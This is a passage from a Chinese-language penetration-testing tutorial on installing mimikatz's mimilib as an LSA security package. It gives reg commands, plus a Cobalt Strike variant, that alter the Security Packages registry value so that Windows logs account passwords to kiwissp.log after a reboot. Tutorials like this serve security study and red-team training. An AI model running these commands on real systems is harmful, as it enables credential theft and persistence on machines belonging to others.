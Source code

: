 ### 2.2.2. 执行命令

这里为什么说无法在cs中执行，仔细看图片，由于在修改过程中，会存在一个交互式的命令，而CS中是无法执行交互式命令的，不过我记得MSF好像是可以直接进行交互式命令的。

不过后来，有位兄弟帮我解决了，感谢。

```
#查看当前注册表中的设置值
reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"
#修改注册表中的值
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ


#CS中修改注册表中的值
shell echo yes | reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ
```

![image-20230815095239473](assets/image-20230815095239473.png)

CS中操作的效果。

![image-20230815100330364](assets/image-20230815100330364.png)

### 2.2.3. 重启生效

上述命令执行完后会在注册表中添加一个`mimilib`也就是会调用`mimilib.dll`，要注意在`mimilib.dll`前面有一个`\0`是换行。并且在重启后会在`C:\windows\system32\kiwissp.log`记录账号密码。
